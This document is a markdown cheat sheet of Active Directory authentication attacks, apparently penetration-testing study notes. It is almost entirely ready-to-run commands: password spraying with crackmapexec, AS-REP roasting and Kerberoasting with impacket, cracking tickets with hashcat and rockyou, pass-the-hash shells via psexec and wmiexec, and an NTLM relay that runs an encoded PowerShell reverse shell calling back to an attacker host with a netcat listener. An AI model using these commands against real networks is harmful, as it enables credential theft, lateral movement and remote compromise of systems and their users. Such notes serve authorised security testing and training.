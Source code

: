 # Attacking Authentication

## Password spray


Password spray attack with crackmapexec.
Note that crackmapexec doesn't look at the policy for locking users

```
crackmapexec smb $RHOST -u ${USERS_FILE} -p '${PASSWORD}' -d ${DOMAIN} --continue-on-success
```
Available protocols are: `ssh,mssql,winrm,smb,ldap,rdp,ftp`.

## Impacket

### AS-REP roasting

```
impacket-GetNPUsers -dc-ip ${DC_IP} -request -outputfile asrep-result.txt ${DOMAIN}/${OWNED_USER}
```

### Kerberoasting

This is good for high-privilege service accounts.
check for SPN accounts:
```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found SPN:

```
impacket-GetUserSPNs -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 
```
Note the `$SPN_ACCOUNT` is the account Name, not the ServicePrincipalName.


Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```

### Pass Admin hash psexec

Assuming you've found an NTLM admin hash, you might be able to get a reverse shell onto another machine with `impacket-psexec`:

```
impacket-psexec -hashes :${NTLM_HASH} Administrator@$RHOST
```
a similar command is `impacket-wmiexec`, which gets us a shell as Administrator, rather than the SYSTEM:

```
impacket-wmiexec -hashes :${NTLM_HASH} Administrator@${RHOST}
```
This requires the SMB port (usually 445) to be available, Windows File and Printer sharing to be enabled, as well as the ADMIN$ share to be available.


### Relay hash with impacket-ntlmrelayx

You can relay SMB requests between SRV1 and SRV2 by doing the following:

* Setup an nc listener on kali: `nc -nvlp 6666`.
* From kali: `sudo impacket-ntlmrelayx --no-http-server -smb2support -t ${SRV2} -c "powershell -enc ${ENCODED_REV_SHELL}` (`ENCODED_REV_SHELL` points to `$ATTACKER_IP` and port `6666`)
* From SRV1 do `dir \\$ATTACKER_IP\thiswillgetdenied`.
The SMB request with the NTLMv2 Hash of the user on SRV1 will get relayed to SRV2.
Target system needs to have UAC remote restrictions disabled, and the user on SRV1 needs to have access to SRV2 for this to work.

